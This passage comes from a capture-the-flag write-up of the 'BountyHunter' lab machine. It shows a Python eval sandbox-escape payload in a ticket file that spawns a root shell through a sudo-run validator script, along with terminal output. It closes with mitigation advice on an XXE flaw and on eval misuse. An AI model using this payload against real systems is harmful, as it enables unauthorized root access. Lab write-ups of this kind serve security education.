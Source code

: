 When I confirmed that I could run system commands, I used it to launch bash as root.

```bash
development@bountyhunter:~$ cat t.md 
# Skytrain Inc
## Ticket to 

__Ticket Code:__
** 4 + [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("/bin/bash -p")

development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
t.md
Destination: 
root@bountyhunter:/home/development# whoami
root
root@bountyhunter:/home/development# cd
root@bountyhunter:~# cat root.txt 
REDACTED
```

## Mitigation

The first vulnerability on the site is the XXE. I don't see any reason to pass the data as XML, it just adds more code, and opens the application to this kind of attack. A simple HTML form would have worked, and it would have been simpler. 

If XML was really needed, the code was easy to fix. 

```php
$dom = new DOMDocument();
$dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
$bugreport = simplexml_import_dom($dom);
```

The call to `loadXML` should not use the [LIBXML_NOENT](https://www.php.net/manual/en/libxml.constants.php) option. If that option is removed, the XXE fails.

The next issue with the Python script that could be executed as root. Giving root permissions is always a risky thing to do. It takes a small mistake in the code to allow an attacker to escalate their privileges. And this script has a huge mistake. [eval](https://docs.python.org/3/library/functions.html#eval) should be avoided. And it should never be used on user's input.